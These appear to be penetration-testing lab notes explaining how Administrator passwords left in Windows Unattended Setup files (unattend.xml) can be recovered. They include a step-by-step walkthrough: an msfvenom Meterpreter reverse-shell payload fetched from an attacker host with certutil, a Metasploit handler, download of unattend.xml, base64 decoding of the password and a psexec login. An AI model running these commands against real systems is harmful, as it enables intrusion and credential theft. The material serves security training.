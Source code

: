 Windows Configuration Files
- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of unattended Windows Setup utility which is used to automate the mass installation/deployment of Windows on systems.
- This tool uses configuration files that can contain specific configurations and user account credentials, specifically the Administrator's password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows targets legitimately.

Unattended Windows Setup
- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
	- C:\Windows\Panther\unattend.xml
	- C:\Windows\Panther\autounattend.xml
	- The files would be present either on the given paths, or in a subdirectory named Unattend in the C:\Windows\Panther folder.
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64

Practical Demonstration
- On the target system:
	- On a command prompt:
		- `net user`
		- `whoami /priv`
- On our Attack Machine:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f exe > payload.exe`
- `python -m SimpleHTTPServer 80`
- On the target system:
	- On a command prompt:
		- `cd Desktop`
		- `certutil -urlcache -f http://10.10.5.2/payload.exe payload.exe`
- On our Attack Machine:
	- `service postgresql start; msfconsole`
	- `use multi/handler`
	- `set payload windows/x64/meterpreter/reverse_tcp`
	- `set LPORT 1234`
	- `set LHOST 10.10.5.2`
- On the target system:
	- Execute payload.exe
- On our Attack Machine:
	- Meterpreter Session:
		- `sysinfo`
		- `search -f unattend.xml`
		- `cd C:\Windows\Panther`
		- `dir`
		- `download unattend.xml`
	- `cat unattend.xml`
	- Go through the unattend.xml file manually to find out the field with the password of the user account, and save it in a new file named password.txt.
	- `nano password.txt`
	- `base64 -d password.txt > decoded_password.txt`
	- Password verification using a PsExec login attempt:
		-  `psexec.py Administrator@demo.ine.local`
		- `whoami`